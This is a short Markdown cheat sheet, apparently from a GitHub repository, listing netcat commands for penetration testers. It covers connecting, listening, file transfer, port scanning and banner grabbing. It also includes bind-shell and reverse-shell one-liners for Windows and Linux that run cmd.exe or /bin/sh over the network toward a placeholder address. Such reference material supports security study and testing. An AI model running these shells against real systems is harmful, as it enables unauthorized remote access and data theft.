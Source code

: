```yaml
---
title: "Netcat Cheat Sheet"
description: Useful cheat sheet for netcat..pentester swiss knife!
---
```


# Connect to a TCP Port

```ruby
nc -nv <IP Address> <Port>
```
# Listen on a TCP Port

```perl
nc -lvp <port>
```
# Connect and receive a HTTP Page

```ruby
nc -nv <IP Address> 80
HEAD / HTTP/1.1

```
# Transferring a File
```perl
nc -lvp 4444 >output.txt          # Receiving End
nc -nv <IP Address> < input.txt   # Sending End
```
# Set up a Netcat Bind Shell (Windows)
```ruby
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444          # Connect to the shell
```
# Set up a Netcat Bind Shell (Linux)
```perl
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444          # Connect to the shell
```
# Set up a Netcat Reverse Shell (Windows)
```ruby
nc -lvp 443                       # Attacker listening for connection
nc -nv <IP Address> 443 -e cmd.exe
``` 
# Set up a Netcat Reverse Shell (Linux)
```perl
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

# Netcat as a Port Scanner
```ruby
nc -z <IP Address> <Port Range in abc - xyz format>
```
# Netcat as a Banner Grabber
```perl
echo "" | nc -nv -w1 <IP Address> <Ports>
```

